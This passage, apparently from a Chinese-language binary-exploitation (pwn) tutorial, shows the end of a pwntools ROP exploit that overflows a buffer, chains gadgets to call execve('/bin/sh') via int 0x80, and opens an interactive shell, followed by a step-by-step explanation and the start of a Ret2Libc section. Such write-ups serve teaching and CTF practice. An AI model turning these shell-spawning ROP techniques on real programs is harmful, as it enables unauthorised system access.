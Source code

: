 ```python
    + p32(0)                  # 设置 ecx = 0（NULL，参数）
    + bin_sh                  # 设置 ebx = "/bin/sh"（程序路径）
    + int_0x80                # 压入系统调用指令 `int 0x80`
)
# 构造完整的 ROP payload，通过缓冲区溢出覆盖返回地址并实现系统调用 execve

p.sendline(payload)
# 将构造好的 payload 发送给目标程序，触发缓冲区溢出漏洞

p.interactive()
# 进入交互模式，等待用户输入
# 如果漏洞利用成功，会打开一个交互式 Shell，允许用户执行命令
```

```
运行脚本即可得到shell.
```

![image-20241216152155012](pwn二进制漏洞/image-20241216152155012.png)	

```
解释这个payload原理。
分析:首先分别对前112B进行填充，到返回地址覆盖成pop_eax,那么当ret执行时就会把这个内存地址弹出，并赋值给eip（指令指针寄存器）中，这样就会去执行这个汇编指令，紧接着执行pop eax会把栈顶元素，即提前放好的0xb取出。然后再执行ret,此时又会pop出栈顶元素，即pop_edx_ecx_ebx的内存地址，并赋值到eip，然后就会去执行这部分的汇编，同理最后执行到ret时会弹出int_0x80的内存地址，那么就会执行这部分指令。
```

## ROP-Ret2Libc概述

![image-20241216153145628](pwn二进制漏洞/image-20241216153145628.png)	
